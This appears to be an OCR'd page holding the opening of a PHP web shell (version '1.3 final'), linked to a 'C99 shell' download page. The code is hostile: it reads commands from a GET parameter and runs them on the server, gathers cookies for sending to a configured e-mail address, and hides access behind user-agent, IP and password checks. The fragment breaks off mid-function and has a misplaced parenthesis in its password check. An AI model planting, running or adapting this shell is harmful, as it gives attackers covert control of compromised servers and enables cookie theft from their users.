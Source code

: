 ###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
*/
// Configuration
$auth = 0;
$uakey = "b5c3d0b28619de70bf5588505f4061f2"; // MD5 encoded user-agent
$IP = array("127.0.0.2","127.0.0.1"); // IP Addresses allowed to access shell
$email = ""; // E-mail address where cookies will be sent
$user  = "af1035a85447f5aa9d21570d884b723a"; // MD5 encoded User
$pass = "47e331d2b8d07465515c50cb0fad1e5a"; // MD5 encoded Password
// Global Variables
$version = "1.3 final";
$self = $_SERVER['PHP_SELF'];
$soft = $_SERVER["SERVER_SOFTWARE"];
$servinf = split("[:]", getenv('HTTP_HOST'));
$servip = $servinf[0];
$servport = $servinf[1];
$uname = php_uname();
$curuser = @exec('whoami');
$cmd = $_GET['cmd'];
$act = $_GET['act'];
$cmd = $_GET['cmd'];
$cookie = $_GET['cookie'];
$f = $_GET['f'];
$curdir = cleandir(getcwd());
if(!$dir){$dir = $_GET['dir'];}
elseif($dir && $_SESSION['dir']){$dir = $_SESSION['dir'];}
elseif($dir && $_SESSION['dir']){$dir = $curdir;}
if($dir && $dir != "nullz"){$dir = cleandir($dir);}
$contents = $_POST['contents'];
$gf = $_POST['gf'];
$img = $_GET['img'];
session_start();
@set_time_limit(5);
switch($auth){ // Authentication switcher
  case 0: break;
  case 1: if(md5($_SERVER['HTTP_USER_AGENT']) != $uakey){hide();} break;
  case 2: if(!in_array($_SERVER['REMOTE_ADDR'],$IP)){hide();} break;
  case 3: if(!$_SERVER["PHP_AUTH_USER"]){userauth();} break;
}
    
function userauth(){ // Basic authentication function
  global $user, $pass;
  header("WWW-Authenticate: Basic realm='Secure Area'");
  if(md5($_SERVER["PHP_AUTH_USER"]) != $user || md5($_SERVER["PHP_AUTH_PW"] != $pass)){
    hide();

 [1]: http://hackingscripts.com/c99-shell/ "C99 shell"